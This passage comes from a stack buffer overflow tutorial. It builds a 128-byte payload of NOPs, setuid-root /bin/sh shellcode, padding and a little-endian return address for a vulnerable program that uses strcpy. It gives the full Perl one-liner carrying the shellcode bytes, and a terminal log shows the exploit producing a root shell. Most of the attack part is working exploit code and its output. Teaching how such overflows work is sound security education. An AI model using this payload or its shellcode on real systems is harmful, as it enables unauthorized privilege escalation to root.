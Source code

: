 ```
\xbf\xff\xfb\xa0
```

Little endian the return address.

```
\xa0\xfb\xff\xbf
```

Then, based on our previous arrangement,

```
NOPs (72 bytes) + Shellcode (32 bytes) + ‘A’ characters (20 bytes) + Return address (4 bytes-pointing back to the NOP area) = 72 + 32 + 20 + 4 = 128 bytes
```

Replace the return address of the return address part in the original argument. Take note that this is a one line command.

```
`perl -e 'print "\x90"x72, "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68
\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80", "a"x20, "\xa0\xfb\xff\xbf"'`
```

Re-run the program with this new argument.

```
[bodo@bakawali testbed2]$ whoami
bodo
[bodo@bakawali testbed2]$ ./test `perl -e 'print "\x90"x72, "\x31\xc0\x89\xc3\xb0\x17\xcd\x80
\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80", "a"x20, "\xa0\xfb\xff\xbf"'`
sh-3.00# whoami
root
sh-3.00# id
uid=0(root) gid=502(bodo) groups=502(bodo) context=user_u:system_r:unconfined_t
sh-3.00# su -
[root@bakawali ~]# whoami
root
[root@bakawali ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=root:system_r:unconfined_t
[root@bakawali ~]#
```

Well, we got root in the first try!  And the rest is history :o)…We passed the input strings to our program through the argv[1] (as the command line first argument). Then in the program, the strcpy() copied the input into the stack’s buffer without verifying the size, overwriting the return address nicely with an address that pointing back to the stack area.  When the program finished, instead of returning back to system/OS, it return to the stack area, start executing the NOPs and proceeded to our shellcode that spawned a root shell.  Our final stack layout that has been over flown should be looked something like the following:
